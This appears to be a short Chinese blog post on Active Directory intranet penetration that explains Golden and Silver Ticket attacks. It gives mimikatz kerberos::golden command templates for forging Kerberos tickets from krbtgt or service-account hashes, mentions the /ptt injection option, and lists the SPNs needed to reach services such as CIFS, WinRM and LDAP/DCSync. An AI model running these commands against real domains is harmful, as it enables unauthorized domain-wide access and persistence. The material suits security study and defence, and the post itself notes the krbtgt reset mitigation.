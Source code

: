 ```yaml
---
title: "金银票据的利用"
date: 2019-07-22T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['domain','mimikatz']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



黄金票据利用 krbtgt 账户的 NTLM-Hash/AES-Key 伪造 TGT, 借此以访问域内所有资源.

白银票据利用服务账户的 NTLM-Hash/AES-Key 伪造 TGS Ticket, 可访问指定服务.

<!--more-->

## Golden Ticket

黄金票据利用 krbtgt 账户的 NTLM-Hash/AES-Key 伪造 TGT, 借此以访问域内所有资源.

```
kerberos::golden /user:fake-user /domain:domain-name /sid:domain-sid /krbtgt:krbtgt-hash
```

通过 `/aes256`, `/aes128` 可指定 AES-Key 替代 NTLM-Hash.

另有 `/ptt` 参数以直接在当前会话注入票据.

默认有效时间为 20 分钟, 过期可重新导入.

快速更改 krbtgt 账户密码两次可使票据失效.

## Silver Ticket

白银票据利用服务账户的 NTLM-Hash/AES-Key 伪造 TGS Ticket, 可访问指定服务.

其实跟 Kerberoast 爆破后的利用类似, 个人认为银票作为维持权限的方法并不合适, 如果是第三方服务建议进一步利用, CIFS LDAP 这类倒不如直接针对系统本身进行权限维持.

```
kerberos::golden /user:fake-user /domain:domain-name /sid:domain-sid /target:target-host /service:service-name /rc4:service-hash
```

注意目标服务只有添加了对应的 SPN 信息才能够使用银票.

系统服务.

```
WMI: HOST RPCSS
WinRM: HOST HTTP
Scheduled Tasks: HOST
Windows File Share: CIFS
PowerShell Remoting: HOST HTTP
LDAP operations including Mimikatz DCSync: LDAP
Windows Remote Server Administration Tools: RPCSS LDAP CIFS
```

常用第三方服务 [ADSecurity](https://adsecurity.org/?page_id=183).